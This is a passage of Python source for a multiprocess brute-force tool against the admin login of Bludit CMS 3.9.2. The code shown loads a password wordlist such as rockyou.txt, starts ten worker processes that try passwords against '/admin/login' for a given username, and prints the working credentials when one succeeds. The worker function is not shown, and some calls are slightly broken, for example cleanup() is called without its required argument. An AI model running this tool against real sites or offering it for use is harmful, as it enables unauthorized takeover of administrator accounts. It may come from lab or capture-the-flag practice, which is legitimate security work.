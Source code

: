 ```python
                        print('Use {u}:{p} to login.'.format(u = username, p = password))
                        print()
#For some reason I still can't get this to exit properly. 
#TODO: Fix this to clean up all threads and exit gracefully upon success
                        cleanup()
                        sys.exit()

        except Exception:
        #Make this exception more verbose and useful
            e = sys.exc_info()[2]
            print("Failed on: {0} {1}".format(password, str(e)))
            return

#        time.sleep(.5)

def file_to_list(wList):
    passlist= []
    #latin1 encoding is necessary to get `rockyou.txt` to work
    #this may cause problems with other lists
    #need to add check for encoding type on input file
    with open(wList, encoding='latin1') as wordList:
         templist = wordList.readlines()

         for word in templist:
             passlist.append(word.strip())

    return passlist


def cleanup(processes):
        # Wait for all worker processes to finish
    for p in processes:
        p.terminate()
        p.join()


if __name__ == '__main__':
    if len(sys.argv) != 4:
        print('Usage: python3 bludit-3.9.2-bruteForce-multi http://<ip> <username> </path/to/wordlist>')
        sys.exit()

    host = sys.argv[1]
    login_url = host + '/admin/login'
    username = sys.argv[2]
    wordlist = sys.argv[3]
    threads = 10
    passwords = file_to_list(wordlist)

    cred_queue = multiprocessing.Queue()
    success_queue = multiprocessing.Queue()
    procs = []

    print('Starting {0} worker threads.'.format(threads))
    for i in range(threads):
        p = multiprocessing.Process(target=worker,
                                    args=(cred_queue, success_queue))
        procs.append(p)
        p.start()

    print('Loading credential queue.')
    for pwd in passwords:
        cred_queue.put((pwd))
```